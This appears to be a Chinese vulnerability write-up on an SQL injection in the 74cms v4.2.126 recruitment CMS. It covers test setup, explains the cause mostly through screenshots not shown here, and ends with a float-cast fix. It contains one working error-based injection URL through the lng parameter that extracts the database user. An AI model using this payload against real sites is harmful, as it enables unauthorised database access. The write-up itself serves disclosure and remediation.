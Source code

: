 # 74cms v4.2.126-通杀sql注入

> 原文：[https://www.zhihuifly.com/t/topic/2790](https://www.zhihuifly.com/t/topic/2790)

# 74cms v4.2.126-通杀sql注入

# 0x00 前言

厂商：74cms
下载地址：[http://www.74cms.com/download/index.html](http://www.74cms.com/download/index.html)

关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

# 0x01 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为  [http://baidu.com](http://baidu.com) 即可

# 0x02 数据填充不然没得测试

![image](img/3fe62a8eed43c49595c5bf54590aba34.png)

## 0x02.1注册商家账号方便测试

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了
注册完成以后将此商家用户登录前台

![image](img/ea437e63c6c56be128734873e7babe77.png)

## 0x02.2注册普通账号方便测试

![image](img/6310874b16efcc72a7a7a1b3214ca540.png)

# 0x03 sql漏洞演示

![image](img/9c3b6002414c37c5d548a5251ff441be.png)

![image](img/e58fa00db554ba954975de9d2d1abbc8.png)

这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

```
Payload: 
http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a 
```

![image](img/dc5afc5d8980ba31d4b21b5196b62455.png)

# 0x04 漏洞原理

![image](img/12181c83057ba0b29473c4ebee849ac6.png)

![image](img/2cb872ee1ecfb38317c2132352642f2a.png)

![image](img/5c9ad1285ef047c5630a27806d06a597.png)

![image](img/7a1ab26c205d69b422c0b9609b79000c.png)

![image](img/3d1f082baac09fe46573881702eb9d1d.png)

![16.png](img/4ce2f9b3822b72662557e784aa7e16a8.png)

说明我们的猜想是没有错的。

![image](img/2f09d93e975a54ccb17a6394a1096ec3.png)

![image](img/cbdfcc8b48baffe37460d2d0ee6c5284.png)

所以最终我们符合条件的内容都会赋值为$this->params

![image](img/4bee7dcbc4d92a65c0ad8385819d4d8a.png)

![image](img/ea437e63c6c56be128734873e7babe77.png)

![image](img/8c84751216621f071101132a3ed465f3.png)

# 0x05 修复方法

![image](img/b956cd9d01ec83ae1057c1cb79160bf9.png)

```
$this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2) COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range"; 
```

强转为浮点型，防止注入

## 四、参考链接

> https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2